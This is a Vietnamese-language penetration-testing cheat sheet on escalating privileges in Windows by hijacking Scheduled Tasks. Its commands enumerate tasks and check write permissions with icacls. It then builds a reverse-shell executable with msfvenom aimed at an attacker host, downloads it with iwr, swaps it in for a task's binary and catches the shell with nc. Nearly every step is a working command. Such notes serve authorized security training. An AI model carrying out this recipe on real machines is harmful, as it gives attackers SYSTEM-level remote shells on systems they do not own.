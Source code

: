 # Schedule Tasks

## Điểm chính khai thác

* Khai thác các Scheduled Tasks trên Windows để nâng quyền bằng cách thay thế các file thực thi có thể ghi trong các tác vụ chạy với quyền SYSTEM hoặc tài khoản quản trị.
* Tác vụ chạy trong thư mục do người dùng kiểm soát hoặc có quyền ghi là mục tiêu chính để triển khai payload độc hại.
* Tác vụ chạy thường xuyên (ví dụ: mỗi phút) cho phép khai thác nhanh mà không cần kích hoạt thủ công.
* Quyền thực thi của tác vụ (Run As User) quyết định mức độ đặc quyền thu được, với SYSTEM là tối ưu cho leo thang toàn diện.
* Sao lưu file gốc và kiểm tra quyền là cần thiết để đảm bảo khai thác không gây gián đoạn.

***

## Các bước khai thác

### Kiểm tra lỗ hổng

Liệt kê tất cả Scheduled Tasks để tìm các tác vụ có nhị phân trong thư mục do người dùng kiểm soát hoặc chạy với quyền cao:

```
schtasks /query /fo LIST /v
```

Liệt kê chi tiết các tác vụ để xác định đường dẫn nhị phân và quyền thực thi:

```
Get-ScheduledTask | ForEach-Object { $_.Actions }
```

Kiểm tra quyền trên nhị phân của tác vụ để xác định khả năng ghi đè:

```
icacls <path_to_file>
```

Kiểm tra quyền trên thư mục chứa nhị phân để đảm bảo khả năng ghi:

```
icacls <path>
```

***

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo reverse shell để thay thế tác vụ:

{% code overflow="wrap" %}

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=443 -f exe -o shell.exe
```

{% endcode %}

Sao lưu nhị phân gốc để tránh làm hỏng hệ thống:

```
move .\<file>.exe .\<file>.exe.bak
```

#### Áp dụng khai thác

Tải payload từ máy chủ kiểm soát để thay thế file thực thi của tác vụ:

```
iwr -Uri http://<kali_ip>/shell.exe -OutFile <file>.exe
```

Triển khai payload vào đường dẫn của tác vụ:

```
move .\<file>.exe <path>
```

{% hint style="info" %}
Yêu cầu quyền Modify (M) hoặc Full (F) trên đường dẫn bằng `icacls`.
{% endhint %}

#### Kích hoạt khai thác

Kích hoạt thủ công tác vụ nếu được phép để thực thi payload hoặc đợi đến lịch:

```
schtasks /run /tn <task>
```

Chờ kết nối reverse shell sau khi tác vụ thực thi:

```
nc -lvnp 443
```

